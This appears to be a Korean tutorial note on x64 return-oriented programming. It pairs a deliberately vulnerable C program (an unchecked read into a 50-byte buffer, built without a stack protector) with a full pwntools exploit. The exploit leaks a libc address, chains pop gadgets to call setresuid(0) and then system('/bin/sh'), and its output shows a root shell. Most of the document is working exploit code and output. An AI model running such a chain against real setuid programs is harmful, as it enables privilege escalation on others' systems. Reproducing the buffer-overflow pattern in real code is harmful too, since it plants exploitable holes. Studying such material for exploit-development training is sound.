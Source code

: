 # **x64 Return Oriented Programming**

ROP를 통해 메모리 영역 할당(mmap)하거나 할당된 메모리 영역의 권한을 변경(mprotect)하여 공격하는 방법.  

x64의 경우 호출 규약 때문에 피연산자가 매우 중요함.  

x64의 ROP에서 POP 명령의 역할  
1. ESP의 레지스터 값을 증가시켜 함수를 연속적으로 호출
1. 호출할 함수에 전달될 인자 값을 레지스터에 저장

Ex)  
호출할 함수의 1 번째 인자 값 저장: "pop rdi; ret"  
호출할 함수의 2 번째 인자 값 저장: "pop rsi; ret"  
호출할 함수의 1,3 번째 인자 값 저장: "pop rdi; pop rdx; ret"

## **Proof of Concept**

```c
// Vuln Code
// gcc rop.c -o rop -ldl -fno-stack-protector 
#define _GNU_SOURCE
#include <stdio.h>
#include <unistd.h>
#include <dlfcn.h>
 
void vuln(){
    char buf[50];
    void (*printf_addr)() = dlsym(RTLD_NEXT, "printf");
    printf("Printf() address : %p\n",printf_addr);
    read(0, buf, 256);
}
 
void main(){
    seteuid(getuid());
    write(1,"Hello ROP\n",10);
    vuln();
}
```

"A"*72 입력 시 Overflow 발생.

```
gdb-peda$ x/24gx $rbp
0x7fffffffe3c0:	0x4141414141414141	0x000000000040070a
0x7fffffffe3d0:	0x00000000004007e0	0x00007ffff7829830
0x7fffffffe3e0:	0x0000000000000000	0x00007fffffffe4b8
```

## **Exploit Code**
```python
# Exploit Code
import sys
from pwn import *

p = process('./rop')
#gdb.attach(p)
print(p.recvline())
printf_addr = int(p.recvline().split(' ')[3],16)
print('printf_addr: '+str(printf_addr))

libBase = printf_addr - 0x55800
system = libBase + 0x45390
setresuid = libBase + 0xcd570
binsh = libBase + 0x18cd57
pop_rdi_ret = 0x00400843
pop_rsi_ret = 0x00400841
pop_rdx_pop_rsi_ret_offset = 0x1150c9

payload = "A"*72
payload += p64(pop_rdi_ret)
payload += p64(0)
payload += p64(libBase + pop_rdx_pop_rsi_ret_offset)
payload += p64(0)
payload += p64(0)
payload += p64(setresuid)
payload += p64(pop_rdi_ret)
payload += p64(binsh)
payload += p64(system)

p.sendline(payload)
p.interactive()
```

## **Exploit**
```shell
pwner@bs-virtual-machine:~$ python exploit.py 
[+] Starting local process './rop': pid 3166
Hello ROP

printf_addr: 140605686425600
[*] Switching to interactive mode
$ id
uid=0(root) gid=1001(pwner) groups=1001(pwner)
```

**Refereces**  
<https://lazenca.net/display/TEC/02.ROP%28Return+Oriented+Programming%29-x64>

